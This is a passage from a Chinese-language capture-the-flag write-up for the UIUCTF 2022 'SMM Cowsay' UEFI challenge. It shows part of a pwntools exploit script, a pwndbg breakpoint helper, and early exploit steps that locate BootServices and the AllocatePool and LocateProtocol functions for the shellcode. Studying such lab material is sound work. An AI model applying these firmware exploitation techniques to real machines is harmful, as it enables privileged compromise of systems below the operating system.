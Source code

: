 ```python
    if cowsay:
        context.log_level = "debug"
        return
    for i in range(14):
        ru(b": 0x")
        result.append(int(ru(b"R", "drop"), 16))
    ru(b": 0x")
    result.append(int(ru(b"Done! Type more code\r\n", "drop"), 16))
    dump_register(result)
    return result


ia()
```

脚本中获得了题目提供的 SystemTable 地址和 Shellcode 地址，可以拿后者下断点进行调试：

```bash
#/usr/bin/env bash
# Usage: ./initgdb.sh 0x517d100

pwndbg -ex "target remote 127.0.0.1:1234" \
	-ex "b *($1)" \
	-ex "c"
```
#### STEP 1: AllocatePool and Setup Buffer

接下来继续完成利用前期准备工作：

> [!hint] 
> 在阅读 [toh 的 WP](https://toh.necst.it/uiuctf/pwn/system/x86/rop/UIUCTF-2022-SMM-Cowsay/) 时我看到了 [pahole](https://manpages.debian.org/unstable/dwarves/pahole.1.en.html)，可以展示 C 语言结构体内部偏移（不过需要提供带调试信息的二进制文件），感觉是一款很好的辅助工具：

1. 根据 SystemTable 找到 BootServices：
```c
❯ pahole -C EFI_SYSTEM_TABLE ./Binexec.debug
typedef struct {
        EFI_TABLE_HEADER   Hdr;                  /*     0    24 */
        CHAR16 *           FirmwareVendor;       /*    24     8 */
        UINT32             FirmwareRevision;     /*    32     4 */

        /* XXX 4 bytes hole, try to pack */

        EFI_HANDLE         ConsoleInHandle;      /*    40     8 */
        EFI_SIMPLE_TEXT_INPUT_PROTOCOL * ConIn;  /*    48     8 */
        EFI_HANDLE         ConsoleOutHandle;     /*    56     8 */
        /* --- cacheline 1 boundary (64 bytes) --- */
        EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL * ConOut; /*    64     8 */
        EFI_HANDLE         StandardErrorHandle;  /*    72     8 */
        EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL * StdErr; /*    80     8 */
        EFI_RUNTIME_SERVICES * RuntimeServices;  /*    88     8 */
        EFI_BOOT_SERVICES * BootServices;        /*    96     8 */
        UINTN              NumberOfTableEntries; /*   104     8 */
        EFI_CONFIGURATION_TABLE * ConfigurationTable; /*   112     8 */

        /* size: 120, cachelines: 2, members: 13 */
        /* sum members: 116, holes: 1, sum holes: 4 */
        /* last cacheline: 56 bytes */
} EFI_SYSTEM_TABLE;
```
2. BootServices 中有我们写 Shellcode 会用到的绝大部分函数，包括 LocateProtocol 和 AllocatePool：
![[static/UEFT-image1.png]]
3. 还需要获取两个 GUID 用于定位函数，分别为：
	- gEfiSmmCowsayCommunicationGuid